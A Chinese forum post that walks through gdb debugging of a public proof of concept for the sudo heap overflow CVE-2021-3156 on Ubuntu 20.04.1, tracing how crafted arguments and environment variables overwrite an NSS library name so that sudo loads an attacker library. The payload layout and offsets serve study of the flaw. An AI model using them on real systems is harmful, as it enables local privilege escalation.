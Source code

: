 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-265906.htm)

在论坛上看到有大佬写了 CVE-2021-3156 的分析，蹭一下热度。

 

本文仅记录我对 CVE-2021-3156 漏洞的调试过程，漏洞分析及利用思路请参考 [Baron Samedit: Heap-based buffer overflow in Sudo (CVE-2021-3156)](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)，利用代码请参考 [blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)。

 

测试系统为全新的 Ubuntu 20.04.1 虚拟机，sudo 的版本为 1.8.31-1ubuntu1。

 

根据漏洞介绍，此漏洞可以被所有本地用户利用，但是经过测试 [blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156) 只适用于 non-sudoers。所以首先新建一个 test 用户，按照 [blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156) 的介绍编译并运行 PoC。可以看到提权成功。接下来的目标就是结合已有资料，通过调试弄清漏洞利用的具体过程。  
![](https://bbs.pediy.com/upload/tmp/677218_4WUT9CRXHW7JY6V.png)

```
819     if (sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)) {
...
852             for (size = 0, av = NewArgv + 1; *av; av++)
853                 size += strlen(*av) + 1;
854             if (size == 0 || (user_args = malloc(size)) == NULL) {
...
857             }
858             if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
...
864                 for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
865                     while (*from) {
866                         if (from[0] == '\\' && !isspace((unsigned char)from[1]))
867                             from++;
868                         *to++ = *from++;
869                     }
870                     *to++ = ' ';
871                 }
...
884             }
...
886     }

```

溢出的原因是在 sudo 处理命令行参数的时候，转译字符`\`使`while (*from)`跳过了后面的`\x00`。[Baron Samedit: Heap-based buffer overflow in Sudo (CVE-2021-3156)](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt) 里面介绍了 3 中利用方法，[blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156) 实现的是 3 种方法中的第二种，即通过一次堆溢出覆盖了`struct service_user`中的`name`字段，从而控制了`__libc_dlopen`的参数，所以可以加载一个攻击者准备的 so 库。

 

为了更好的调试，按照 [ubuntu wiki](https://wiki.ubuntu.com/Debug%20Symbol%20Packages) 中的方法安装符号。

```
$ echo "deb http://ddebs.ubuntu.com $(lsb_release -cs) main restricted universe multiverse
> deb http://ddebs.ubuntu.com $(lsb_release -cs)-updates main restricted universe multiverse
> deb http://ddebs.ubuntu.com $(lsb_release -cs)-proposed main restricted universe multiverse" | \
> sudo tee -a /etc/apt/sources.list.d/ddebs.list

```

```
$ sudo apt install ubuntu-dbgsym-keyring
$ sudo apt-get update
$ sudo apt-get install sudo-dbgsym=1.8.31-1ubuntu1 # 注意要安装对应的版本

```

安装好符号表后开始调试，调试时要使用 root 权限，否则 sudoedit 会报错（我猜是因为`gdb sudo`时 sudo 的 suid 位不起作用）。

```
$ sudo gdb --args ./sudo-hax-me-a-sandwich 1

```

漏洞利用代码做的事情就是准备好环境变量和命令行参数后，通过`execve`执行`sudoedit`。先在`exec`系统调用处断下来，然后用`file`命令将调试的程序改为 sudo，接着在`main`函数下断点。

```
Reading symbols from ./sudo-hax-me-a-sandwich...
(gdb) catch exec
Catchpoint 1 (exec)
(gdb) run
Starting program: /home/weizi/src/CVE-2021-3156/sudo-hax-me-a-sandwich 1
 
** CVE-2021-3156 PoC by blasty using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
process 2604 is executing new program: /usr/bin/sudo
 
Catchpoint 1 (exec'd /usr/bin/sudo), 0x00007f2035ec7100 in ?? () from /lib64/ld-linux-x86-64.so.2
(gdb) file /usr/bin/sudo
A program is being debugged already.
Are you sure you want to change the file? (y or n) y
Load new symbol table from "/usr/bin/sudo"? (y or n) y
Reading symbols from /usr/bin/sudo...
Reading symbols from /usr/lib/debug/.build-id/c4/3faca825a3d0bf3541ed8e7c64262105da86d9.debug...
(gdb) b main
Breakpoint 2 at 0x5574f6222b20: file ../../src/sudo.c, line 136.
(gdb) c
Continuing.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
 
Breakpoint 2, main (argc=5, argv=0x7ffc20a88cf8, envp=0x7ffc20a88d28) at ../../src/sudo.c:136
136    ../../src/sudo.c: No such file or directory. 
```

在`main`函数断下来之后，可以查看其参数和环境变量，注意命令行参数和环境变量都存储在栈上，而且连续的。

```
(gdb) p argv[0]
$1 = 0x7ffc20a8adf6 "sudoedit"
(gdb) p argv[1]
$2 = 0x7ffc20a8adff "-s"
(gdb) p argv[2]
$3 = 0x7ffc20a8ae02 'A' , "\\"
(gdb) p argv[3]
$4 = 0x7ffc20a8ae3c "\\"
(gdb) p argv[4]
$5 = 0x7ffc20a8ae3e 'B' , "\\"
(gdb) p envp[0]
$6 = 0x7ffc20a8ae76 "\\"
(gdb) p envp[62]
$7 = 0x7ffc20a8aef2 "\\"
(gdb) p envp[63]
$8 = 0x7ffc20a8aef4 "X/P0P_SH3LLZ_"
(gdb) p envp[64]
$9 = 0x7ffc20a8af02 "LC_ALL=C.UTF-8@", 'C' ...
(gdb) p envp[65]
$17 = 0x0
(gdb) 
```

根据 [Baron Samedit: Heap-based buffer overflow in Sudo (CVE-2021-3156)](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt) 的介绍，溢出点在`set_cmnd`函数，但是目前 gdb 里面并没有这个符号。分析后发现`set_cmnd`这个函数在`sudoers.so`这个库里面，但是当前进程中并没有这个库。

```
(gdb) i sharedlibrary
From                To                  Syms Read   Shared Object Library
0x00007f2035ec7100  0x00007f2035ee9674  Yes (*)     /lib64/ld-linux-x86-64.so.2
                                        No          linux-vdso.so.1
0x00007f2035e897e0  0x00007f2035e905a5  Yes (*)     /lib/x86_64-linux-gnu/libaudit.so.1
0x00007f2035e62040  0x00007f2035e794fd  Yes (*)     /lib/x86_64-linux-gnu/libselinux.so.1
0x00007f2035e573e0  0x00007f2035e57d90  Yes         /lib/x86_64-linux-gnu/libutil.so.1
0x00007f2035e40b40  0x00007f2035e4e3ed  Yes         /usr/lib/sudo/libsudo_util.so.0
0x00007f2035c6e630  0x00007f2035de320d  Yes         /lib/x86_64-linux-gnu/libc.so.6
0x00007f2035c43490  0x00007f2035c452d1  Yes (*)     /lib/x86_64-linux-gnu/libcap-ng.so.0
0x00007f2035bb12e0  0x00007f2035c14d8e  Yes (*)     /lib/x86_64-linux-gnu/libpcre2-8.so.0
0x00007f2035baa220  0x00007f2035bab179  Yes         /lib/x86_64-linux-gnu/libdl.so.2
0x00007f2035b8dae0  0x00007f2035b9d4d5  Yes         /lib/x86_64-linux-gnu/libpthread.so.0
(*): Shared library is missing debugging information.

```

猜测这个库是由`dlopen`打开的，因此在`dlopen`下断点，果然看到了`dlopen`打开`sudoers.so`，并且`set_cmnd`的符号出现了。

```
gdb) b dlopen
Breakpoint 3 at 0x7f2035baa390: file dlopen.c, line 75.
(gdb) c
Continuing.
 
Breakpoint 3, __dlopen (file=file@entry=0x7ffc20a879d0 "/usr/lib/sudo/sudoers.so", mode=257) at dlopen.c:75
75    dlopen.c: No such file or directory.
(gdb) finish
Run till exit from #0  __dlopen (file=file@entry=0x7ffc20a879d0 "/usr/lib/sudo/sudoers.so", mode=257) at dlopen.c:75
0x00005574f622f0f3 in sudo_load_plugin (policy_plugin=policy_plugin@entry=0x5574f62467e0 , info=info@entry=0x5574f731ba40, io_plugins=,
    io_plugins=) at ../../src/load_plugins.c:178
178    ../../src/load_plugins.c: No such file or directory.
Value returned is $10 = (void *) 0x5574f731bb20
(gdb) b set_cmnd
Breakpoint 4 at 0x7f2035409fd3: file ../../../plugins/sudoers/sudoers.c, line 804. 
```

在`set_cmnd`断下来之后你会发现这个函数被内联了，通过汇编可以看出分配内存是在`sudoers_policy_main+771`，所以在此处下断点，查看`malloc`的参数和返回值。可以看到分配内存的大小为`0x74`，返回值为`0x5574f731a350`。

```
Breakpoint 4, set_cmnd () at ../../../plugins/sudoers/sudoers.c:804
804    ../../../plugins/sudoers/sudoers.c: No such file or directory.
(gdb) b *(sudoers_policy_main+771)
Breakpoint 5 at 0x7f203540a133: file ../../../plugins/sudoers/sudoers.c, line 854.
(gdb) c
Continuing.
 
Breakpoint 5, 0x00007f203540a133 in set_cmnd () at ../../../plugins/sudoers/sudoers.c:854
854    in ../../../plugins/sudoers/sudoers.c
(gdb) i r rdi
rdi            0x74                116
(gdb) ni
0x00007f203540a138    854    in ../../../plugins/sudoers/sudoers.c
(gdb) i r rax
rax            0x5574f731a350      93960851792720
(gdb) x/s 0x5574f731a350+176
0x5574f731a400:    "files"

```

`0x74`这个值是三个命令行参数`AAAA...AA\` `\` `BBBB..BB\`的长度加上 3（每个参数后面有一个空格或 null）。根据命令行参数的长度和环境变量的长度，可以算出`X/P0P_SH3LLZ_`相对`0x5574f731a350`的偏移是`57+55+1+63=176`。当前的内容为`files`，在`nss_load_library`下断点，再检查`0x5618c8419350+176`的值为`X/P0P_SH3LLZ_`，在`__libc_dlopen_mode`下断点，可以看到进程在打开`libnss_X/P0P_SH3LLZ_ .so.2`。

```
(gdb) b nss_load_library
Breakpoint 6 at 0x7f2035d8f4c0: file nsswitch.c, line 329.
(gdb) c
Continuing.
 
Breakpoint 6, nss_load_library (ni=ni@entry=0x5574f731a3d0) at nsswitch.c:329
329    nsswitch.c: No such file or directory.
(gdb) x/s 0x5574f731a350+176
0x5574f731a400:    "X/P0P_SH3LLZ_ "
(gdb) p *ni
$11 = {next = 0x0, actions = {NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE}, library = 0x0, known = 0x5574f731f770,
  name = 0x5574f731a400 "X/P0P_SH3LLZ_ "}
(gdb) b __libc_dlopen_mode
Breakpoint 7 at 0x7f2035dab930: file dl-libc.c, line 186.
(gdb) c
Continuing.
 
Breakpoint 7, __GI___libc_dlopen_mode (name=name@entry=0x7ffc20a88160 "libnss_X/P0P_SH3LLZ_ .so.2", mode=mode@entry=-2147483646) at dl-libc.c:186
186    dl-libc.c: No such file or directory.

```

[[公告] 推荐好文功能上线，分享知识还可以得雪币！推荐一篇文章获得 20 雪币！](https://zhuanlan.kanxue.com/article-external_link.htm)